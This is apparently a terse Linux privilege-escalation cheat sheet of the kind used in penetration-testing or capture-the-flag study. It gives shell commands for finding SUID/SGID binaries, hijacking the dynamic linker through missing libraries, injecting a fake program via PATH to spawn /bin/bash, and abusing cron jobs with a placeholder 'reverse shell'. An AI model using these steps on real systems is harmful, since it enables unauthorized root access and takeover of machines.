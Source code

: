 
# SUID & SO

### Sudo Executables

```shell
chmod u+s <file>
chmod 4755 <file>
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
# GTFObins
```

### Dynamic Linker Hijacking - Missing Library

```shell
ldd program_name
readelf -d program_name
cat /etc/ld.so.conf.d/program_name.conf
ldconfig
```

### Dynamic Linker Hijacking - Missing Library 2

```shell
ldd program_name
readelf -d program_name
ldconfig
```

### Path Injection

```shell
echo "/bin/bash" > program_name
chmod 777 program_name
export PATH=/tmp:$PATH
```

---

# CRON JOBS

### File Permissions

```shell
cat /etc/crontab
reverse shell > program_name
```

### Path Injection

```shell
cat /etc/crontab
reverse shell
```
